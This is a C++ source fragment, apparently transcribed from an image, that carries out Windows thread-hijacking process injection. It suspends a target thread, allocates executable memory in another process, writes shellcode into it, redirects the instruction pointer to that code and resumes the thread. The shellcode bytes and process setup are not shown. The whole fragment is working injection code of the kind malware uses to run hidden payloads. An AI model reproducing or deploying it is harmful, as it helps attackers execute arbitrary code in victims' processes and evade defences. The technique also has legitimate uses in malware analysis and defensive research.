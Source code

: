 ```cpp

    // Open the target thread
    HANDLE hThread = OpenThread(THREAD_SUSPEND_RESUME | THREAD_GET_CONTEXT | THREAD_SET_CONTEXT, FALSE, targetThreadId);
    if (hThread == NULL) {
        std::cerr << "Failed to open target thread." << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    // Suspend the thread
    SuspendThread(hThread);

    // Get the thread context
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;
    if (!GetThreadContext(hThread, &context)) {
        std::cerr << "Failed to get thread context." << std::endl;
        ResumeThread(hThread);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    // Print the current EIP (instruction pointer)
    std::cout << "Current EIP: 0x" << std::hex << context.Eip << std::endl;

    // Allocate memory in the target process for the shellcode
    LPVOID remoteShellcode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (remoteShellcode == NULL) {
        std::cerr << "Failed to allocate memory in target process." << std::endl;
        ResumeThread(hThread);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    // Write the shellcode to the allocated memory
    SIZE_T bytesWritten;
    if (!WriteProcessMemory(hProcess, remoteShellcode, shellcode, sizeof(shellcode), &bytesWritten)) {
        std::cerr << "Failed to write shellcode to target process." << std::endl;
        ResumeThread(hThread);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    // Modify the EIP to point to the shellcode
    context.Eip = (DWORD)remoteShellcode;

    // Set the modified context back to the thread
    if (!SetThreadContext(hThread, &context)) {
        std::cerr << "Failed to set thread context." << std::endl;
        ResumeThread(hThread);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    // Resume the thread
    ResumeThread(hThread);
```